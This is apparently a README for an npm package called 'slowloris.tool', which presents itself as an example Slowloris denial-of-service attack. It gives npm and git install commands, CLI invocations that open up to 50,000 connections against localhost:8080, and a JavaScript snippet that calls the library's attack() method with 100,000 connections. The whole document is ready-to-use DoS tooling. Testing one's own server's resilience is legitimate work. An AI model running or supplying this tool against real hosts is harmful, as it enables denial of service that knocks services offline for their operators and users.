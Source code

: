 
### `Intro`
Example of slowloris attack it should start with a few connections and try and ramp up until I can't connected anymore

#### `Install`
``` bash
npm install --save git+https://github.com/anzerr/slowloris.tool.git
npm install --save @anzerr/slowloris.tool
```

``` bash
git clone git+https://git@github.com/anzerr/slowloris.tool.git &&
cd slowloris.tool &&
npm link
```

### `Example`
``` bash
slowloris --host localhost:8080 --max 50000
slowloris --host https://localhost:8080
```

``` javascript
const Loris = require('slowloris.tool');
let l = new Loris('http://localhost:8080', 100000).attack();
return new Promise((resolve) => l.once('end', resolve)).then(() => {
	console.log('attack ended');
}).catch(console.log);
```